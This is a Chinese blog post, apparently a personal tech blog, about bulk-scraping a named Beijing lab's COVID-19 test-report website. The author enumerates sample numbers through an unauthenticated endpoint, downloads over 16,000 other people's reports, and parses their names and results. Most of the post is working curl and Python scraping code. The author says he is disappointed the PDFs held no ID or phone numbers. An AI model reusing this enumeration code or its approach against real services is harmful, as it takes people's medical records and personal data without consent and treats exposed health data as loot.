 ```yaml
---
layout: page
title: COVID-19 Report Analysis
description: “"
image:
  path: http://example.jpg
  feature: 
  credit: 
  creditlink: 
tags: [python, command-line, crawler]
comments: true
reading_time: true
modified: 2020-06-23
---
```


#### 背景

上周去做了一个团体核算检测，三天后拿到了结果。直接从他们的机构的官方网站查询就行了，报告格式是PDF，因为整个过程除了**输入**身份证号和姓名之外，并没有其他的身份校验，所以好奇性地把最终报告的页面地址直接在隐身模式下打开，结果….有下文了，又是一个专门为爬虫设计的简单系统，前端是php，后台是Java。没有登录，没有验证码，没有请求次数限制，就好像是在说：**服务全开，全开！**

#### 下载

报告分移动端和PC端两个版本，仔细看了前端的JS脚本发现都是走的同一个接口，只不过移动端是把最终的pdf内容转成了图片格式。直接在Network inspector里面找到了下载报告的XHR请求，导出对应的curl命名，贴在命令行运行就可以直接运行了。参数大概是这样的（已脱敏）：

```shell
curl 'http://the/post/url' \
  -H 'Connection: keep-alive' \
  -H 'User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_5) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/83.0.4103.106 Safari/537.36' \
  -H 'Content-Type: multipart/form-data; boundary=----WebKitFormBoundarybfGJ0I90Seu9Ywjc' \
  -H 'Accept: */*' \
  -H 'Origin: http://www.example.com' \
  -H 'Referer: http://www.example.com/reports/' \
  -H 'Accept-Language: en-US,en;q=0.9,zh-CN;q=0.8,zh;q=0.7,zh-TW;q=0.6' \
  --data-binary $'------WebKitFormBoundarybfGJ0I90Seu9Ywjc\r\nContent-Disposition: form-data; name="sampleNo"\r\n\r\nXFFFFFF000000\r\n------WebKitFormBoundarybfGJ0I90Seu9Ywjc--\r\n' \
  --compressed \
  --insecure
```

我尝试把这个request转成python requests的代码，[但是失败了](https://stackoverflow.com/q/62538257/1677041)，具体原因后面再查，不影响我先把报告批量爬下来。直接用python把这个curl命令封装一下就好了，因为是response type始终是PDF，所以需要考虑过滤一下错误的报告。如果请求了无效的报告编号，那最终的pdf是无效了，里面的内容其实一个JSON字符串，可以通过macOS下的`file`命令直接判定。很简单的逻辑，实现起来是这样子：

```python
def download_via_curl(order_id):
    'Download covid-19 report via curl.'
    filepath = os.path.join(DIR, order_id)

    if os.path.exists(filepath):
        return True, 'report exists'

    command = """curl 'http://the/post/url' \
-H 'Connection: keep-alive' \
-H 'User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_5) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/83.0.4103.106 Safari/537.36' \
-H 'Content-Type: multipart/form-data; boundary=----WebKitFormBoundarygxQA506xLQ8L4PcZ' \
-H 'Accept: */*' \
-H 'Origin: http://www.example.com' \
-H 'Referer: http://www.example.com/reports/covid19/{id}/' \
-H 'Accept-Language: en-US,en;q=0.9,zh-CN;q=0.8,zh;q=0.7,zh-TW;q=0.6' \
-H 'dnt: 1' \
--data-binary $'------WebKitFormBoundarygxQA506xLQ8L4PcZ\\r\\nContent-Disposition: form-data; name="sampleNo"\\r\\n\\r\\n{id}\\r\\n------WebKitFormBoundarygxQA506xLQ8L4PcZ--\\r\\n' \
--compressed \
--insecure \
--output "{path}" \
--silent
  """.format(id=order_id, path=filepath)

    # logger.debug(command)
    p = subprocess.Popen(command, shell=True, stdout=subprocess.PIPE)
    p.wait()

    if p.returncode != 0:
        return False, 'request error'

    def get_file_type(filepath):
        command = 'file -b %s' % filepath
        p = subprocess.Popen(command, shell=True, stdout=subprocess.PIPE)
        p.wait()
        return p.stdout.read().rstrip()

    file_type = get_file_type(filepath)

    if 'PDF' in file_type:
        return True, None
    else:
        os.remove(filepath)
        return False, 'Invalid file type %s' % file_type
```

接下来只要找到根据我的报告编号的规则来生成一系列新的序号就可以了，同样为了不暴露敏感信息的原则，编号的规则基本是这样的：`XXXFFF000000`，前6位含字母和数字的应该是一个系列，猜测每一个团体大概率用的应该是同一个编号，后6位纯数字就是对应的针对被检测人的序号了。从有效数据开始遍历，我用我自己的编号先往前面遍历，再往后面遍历。就能拿到尽可能多的报告编号。

```python
def batch_download():
    prefix = 'XXXFFF'
    start = 100000
    idx, failure = start, 0

    while True:
        order_id = prefix + '%06d' % idx
        result, msg = download_via_curl(order_id)

        if result:
            logger.debug('Download report %s successfully! %s' % (order_id, msg or ''))
            failure = 0
        else:
            logger.debug('Download report %s failed with error %s!' % (order_id, msg or ''))
            failure += 1

        if failure >= 1000:
            logger.error('Found %d continuous download errors!' % failure)
            break

        # idx += 1
        idx -= 1

```

因为需要考虑到一种错误，因为当时在排队检查的时候，每一个样本最后都会被贴上一个编号，这个编号就是最终生成报告的编号，因为检测人员的操作可能存在的失误，会让有一些编号失效，这些号码会被弃用。猜测还有可能有些编号的纸张因为其他原因丢失或者弃用的原因，所以判定不会出现1000个以上的无效号码，如果出现了，那么往前/后的方向更远的编号应该也不会是有效的。

#### 分析报告

按照上面的规则，目前我拿到的16000+份有效的PDF报告，每个文件几乎都是392k，内容基本都是一样的，除了姓名和一个简单的结果会有所不同。同样的结果如果返回的JSON的话，一定会给我省很多的磁盘空间，*都怪我没有在他们做系统设计的时候提需求，否则也不会出这种冗余数据的笑话！*

老老实实解析PDF内容吧，这类方法很多，有不少开源的PDF解析库，这次我直接用了在SO上发现的一个基于Python的苹果`Foundation` framework的解法。

```python
def parse_result_from_pdf(filename):
    'Inspired by https://apple.stackexchange.com/a/352539/148516'
    username, result = None, None

    pdfURL = NSURL.fileURLWithPath_(filename)
    pdfDoc = PDFDocument.alloc().initWithURL_(pdfURL)

    if not pdfDoc:
        return username, result

    pdfString = NSString.stringWithString_(pdfDoc.string())
    # logger.debug(pdfString)

    for line in pdfString.split('\n'):
        if u'姓 名' in line:
            username = line.split(':')[1].split(' ')[0]
        elif u'阴性' == line:
            result = False
        elif u'阳性' == line:
            result = True

    return username, result
```

性能比我想象得快，大概30~40ms，考虑到是基于Python调用的我还能接受。和解析pdf简历不同，这种结构高度统一的数据直接暴力按行遍历取结果就行了。接下来就是把之前下载到本地的PDF报告遍历一下做个统计就行了。终于到了我想看的数据部分了。

```python
def analyze():
    'Analyze the downloaded reports\' result.'
    health, total = 0, 0
    bad_list, unknown_list = [], []

    for root, dirs, files in os.walk(DIR, topdown=False):
        for name in files:
            if name.endswith('.pdf'):
                total += 1
                fullpath = os.path.join(root, name)
                username, result = parse_result_from_pdf(fullpath)
                logger.info('%s\t%s\t%s\t%s' % (str(total).ljust(6), (username or 'Unknown').ljust(8), u'😱😱😱' if result else u'😀', name))

                if result is True:
                    bad_list.append(name)
                elif result is False:
                    health += 1
                else:
                    unknown_list.append(name)

    logger.info('In total: \nGood: %d, Bad: %d, Unknown: %d' % (health, len(bad_list), len(unknown_list)))

    if len(bad_list) > 0:
        logger.info('Bad list: %s' % (', '.join(bad_list)))

    if len(unknown_list) > 0:
        logger.info('Unknown list: %s' % (', '.join(unknown_list)))
```

输出很无聊，就不贴出来了，最后的统计结果是这样的：

```shell
21:17:34 - __main__ - INFO - In total:
Good: 16098, Bad: 0, Unknown: 1
21:17:34 - __main__ - INFO - Unknown list: XXXFFF100000.pdf
```

没有一个感染的，全部都合格，那个Unknown的结果后面单独查了一下是一个无效PDF的问题。老实说从数据上看第一眼我有点儿震惊，想了想也挺正常，挺庆幸的。至少一定程度上证明目前公司层面上没有瞒报的问题，所有人都健康。截止到这里，这是我爬这段数据的原本初衷。

不过话说回来，那些家伙居然没有把身份证号和手机号录到PDF里面，除了一个姓名和结果之外就什么有用的信息都没有，这个层面上我真的有点儿失望，什么福利都没有，白忙活了。

#### 总结

这个机构在首页号称是“助力新冠疫情后期湖北省产前筛查计划”的，还在这次北京疫情中拿到了新冠病毒核酸检测资质。要说他们泄露了公众隐私，从目前结果上看也没有那么夸张，要说他们没有泄露隐私，他们泄露了自己实验结果本身和对应的少量用户信息。

点名了，机构名称叫**北京安诺优达医学检验实验室有限公司**。

